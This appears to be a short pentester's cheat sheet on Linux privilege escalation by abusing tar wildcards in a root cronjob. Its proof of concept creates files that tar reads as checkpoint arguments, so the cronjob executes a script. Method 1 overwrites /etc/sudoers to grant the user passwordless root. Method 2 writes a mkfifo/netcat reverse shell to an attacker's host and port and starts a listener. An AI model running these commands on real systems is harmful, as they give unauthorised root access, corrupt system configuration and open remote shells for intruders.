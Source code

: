 when .tar is combined with a wildcard in a cronjob, this makes for a fairly simple priv esc

https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

NOTE:
Before proceeding, note that we must be in the directory that root is executing the tar command from...
	pspy64 MIGHT NOT show it...
	check logs (like syslog) if able to
	etc...
		an example is /opt/admin

PoC
```bash
METHOD 1: /etc/sudoers
cd <dir_that_root_executes_cronjob_from>
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'

# Create a privesc.sh bash script, that allows for privilege escalation

privesc.sh
	echo '<our_user> ALL=(root) NOPASSWD: ALL' > /etc/sudoers

# wait for cron to execute
# verify our new sudo perms
sudo -l

# privesc ;)
sudo su

________________________________________________

METHOD 2: Reverse Shell
cd <dir_that_root_executes_cronjob_from>
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc <LHOST> <LPORT> >/tmp/f" > privesc.sh

# start listener
nc -lvnp <LPORT>

# wait for cronjob to execute ;)
```